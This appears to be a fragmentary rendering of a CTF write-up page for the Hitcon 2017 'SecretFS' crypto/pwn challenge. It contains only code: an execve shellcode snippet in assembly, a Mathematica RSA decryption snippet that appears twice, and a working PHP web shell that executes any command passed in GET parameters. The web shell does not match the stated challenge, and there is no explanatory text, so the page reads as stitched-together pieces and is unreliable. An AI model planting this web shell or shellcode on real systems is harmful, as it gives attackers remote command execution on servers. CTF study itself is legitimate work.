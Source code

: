 ```yaml
---
title: "Hitcon2017 -- SecretFS Writeup"
categories:
  - Hitcon2017
tags:
  - CTF
  - pwn
  - crypto
---
```


<div class="notice--info">
<strong>Name</strong>: Secret FS<br>
<strong>Category</strong>: crypto, pwn<br>
<strong>Points</strong>: 196<br>
<strong>Solves</strong>: 69<br>
<strong>Given</strong>: <code>secretfs</code>
</div>


```assembly
	xor eax, eax
	mov rdi, rsp
	mov al, 0x3b
	syscall
```

```Mathematica
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```
dec[m_]:=FromCharacterCode@IntegerDigits[m,256];
dec@Mod[PowerMod[c1,39,n] ModularInverse[c2,n], n]
```

```php
<?php
if (isset($_GET['bin'])) {
    passthru($_GET['bin']);
} elseif (isset($_GET['cmd'])) {
    echo '<pre>';
    system($_GET['cmd']);
    echo '</pre>';
} else {
    echo 'No GET params set. Use bin=cmd" for passthru, cmd=cmd for system.';
}
?>
```